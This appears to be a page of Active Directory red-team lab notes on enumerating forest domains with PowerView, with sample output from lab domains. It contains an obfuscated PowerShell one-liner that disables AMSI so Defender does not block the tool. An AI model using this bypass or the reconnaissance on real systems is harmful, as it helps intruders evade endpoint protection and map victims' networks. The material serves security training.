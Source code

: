 * Get all domains in the current forest

#### Dependencies:

* PowerView
    - https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
    - Load up PowerView
    - If Defender is not disabled, AMSI will step in and detect
    - You will need to use a bypass to load it correctly
        + ```sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;   (   GeT-VariaBle  ( "1Q2U" +"zx"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )```
    - `cd C:\AD\Tools\`
    - `. .\PowerView.ps1`

#### Attack Command: Run with `powershell`!

* `Get-NetForestDomain`
* `Get-NetForestDomain -Forest eurocorp.local`

	* Examples

```
PS C:\AD\Tools> Get-NetForestDomain

Forest                  : moneycorp.local
DomainControllers       : {dcorp-dc.dollarcorp.moneycorp.local}
Children                : {us.dollarcorp.moneycorp.local}
DomainMode              : Unknown
DomainModeLevel         : 7
Parent                  : moneycorp.local
PdcRoleOwner            : dcorp-dc.dollarcorp.moneycorp.local
RidRoleOwner            : dcorp-dc.dollarcorp.moneycorp.local
InfrastructureRoleOwner : dcorp-dc.dollarcorp.moneycorp.local
Name                    : dollarcorp.moneycorp.local

Forest                  : moneycorp.local
DomainControllers       : {mcorp-dc.moneycorp.local}
Children                : {dollarcorp.moneycorp.local}
DomainMode              : Unknown
DomainModeLevel         : 7
Parent                  :
PdcRoleOwner            : mcorp-dc.moneycorp.local
RidRoleOwner            : mcorp-dc.moneycorp.local
InfrastructureRoleOwner : mcorp-dc.moneycorp.local
Name                    : moneycorp.local

Forest                  : moneycorp.local
DomainControllers       : {us-dc.us.dollarcorp.moneycorp.local}
Children                : {}
DomainMode              : Unknown
DomainModeLevel         : 7
Parent                  : dollarcorp.moneycorp.local
PdcRoleOwner            : us-dc.us.dollarcorp.moneycorp.local
RidRoleOwner            : us-dc.us.dollarcorp.moneycorp.local
InfrastructureRoleOwner : us-dc.us.dollarcorp.moneycorp.local
Name                    : us.dollarcorp.moneycorp.local

PS C:\AD\Tools> Get-NetForestDomain -Forest eurocorp.local

Forest                  : eurocorp.local
DomainControllers       : {eurocorp-dc.eurocorp.local}
Children                : {eu.eurocorp.local}
DomainMode              : Unknown
```